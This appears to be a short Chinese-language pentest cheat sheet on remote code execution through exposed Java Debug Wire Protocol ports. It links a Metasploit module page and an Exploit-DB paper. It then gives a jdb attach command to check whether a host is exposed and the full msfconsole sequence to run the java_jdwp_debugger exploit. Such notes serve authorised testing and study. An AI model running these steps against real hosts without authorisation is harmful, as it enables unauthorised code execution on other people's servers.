 # Java Debug Wire Protocol remote code
* [https://www.rapid7.com/db/modules/exploit/multi/misc/java_jdwp_debugger](https://www.rapid7.com/db/modules/exploit/multi/misc/java_jdwp_debugger)
* [https://www.exploit-db.com/papers/27179/](https://www.exploit-db.com/papers/27179/)
## 验证
`jdb -attach x.x.x.x:8000`执行成功就存在
## 利用
```
             msfconsole 
      msf > use exploit/multi/misc/java_jdwp_debugger
      msf exploit(java_jdwp_debugger) > show targets
            ...targets...
      msf exploit(java_jdwp_debugger) > set TARGET <target-id>
      msf exploit(java_jdwp_debugger) > show options
            ...show and set options...
      msf exploit(java_jdwp_debugger) > exploit
```

